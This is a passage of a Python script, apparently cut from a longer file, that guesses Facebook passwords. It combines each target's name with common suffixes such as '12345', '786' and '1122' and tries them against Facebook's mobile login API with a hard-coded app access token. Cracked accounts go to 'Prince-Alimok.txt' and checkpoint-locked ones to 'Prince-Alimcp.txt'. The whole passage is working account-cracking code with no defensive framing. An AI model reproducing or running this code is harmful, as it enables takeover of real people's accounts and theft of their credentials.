 						else:
							pass3 = name.lower()+"12345"
							data = session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+uid+"&password="+pass3+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=header).text
							q = json.loads(data)
							if "access_token" in q:
								print(" \033[1;32m [Prince-Alim-OK] "+uid+" | "+pass3+"\033[0;97m")
								ok = open("Prince-Alimok.txt", "a")
								ok.write(uid+"|"+pass3+"\n")
								ok.close()
								oks.append(uid+pass3)
							else:
								if "www.facebook.com" in q["error_msg"]:
									print(" \033[1;33m [Prince-AlimCP] "+uid+" | "+pass3+"\033[0;97m")
									cp = open("Prince-Alimcp.txt", "a")
									cp.write(uid+"|"+pass3+"\n")
									cp.close()
									cps.append(uid+pass3)
								else:
									pass4 = name.lower()+"786"
									data = session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+uid+"&password="+pass4+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=header).text
									q = json.loads(data)
									if "access_token" in q:
										print(" \033[1;32m [Prince-Alim-OK] "+uid+" | "+pass4+"\033[0;97m")
										ok = open("Prince-Alimok.txt", "a")
										ok.write(uid+"|"+pass4+"\n")
										ok.close()
										oks.append(uid+pass4)
									else:
										if "www.facebook.com" in q["error_msg"]:
											print(" \033[1;33m [Prince-Alim-CP] "+uid+" | "+pass4+"\033[0;97m")
											cp = open("Prince-Alimcp.txt", "a")
											cp.write(uid+"|"+pass4+"\n")
											cp.close()
											cps.append(uid+pass4)
										else:
											pass5 = name.lower()+"1122"
											data = session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+uid+"&password="+pass5+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=header).text
											q = json.loads(data)
											if "access_token" in q:
												print(" \033[1;32m [Prince-Alim-OK] "+uid+" | "+pass5+"\033[0;97m")
												ok = open("Prince-Alimok.txt", "a")
												ok.write(uid+"|"+pass5+"\n")
												ok.close()
												oks.append(uid+pass5)
											else:
												if "www.facebook.com" in q["error_msg"]:
													print(" \033[1;33m [Prince-Alim-CP] "+uid+" | "+pass5+"\033[0;97m")
													cp = open("Prince-Alimcp.txt", "a")
													cp.write(uid+"|"+pass5+"\n")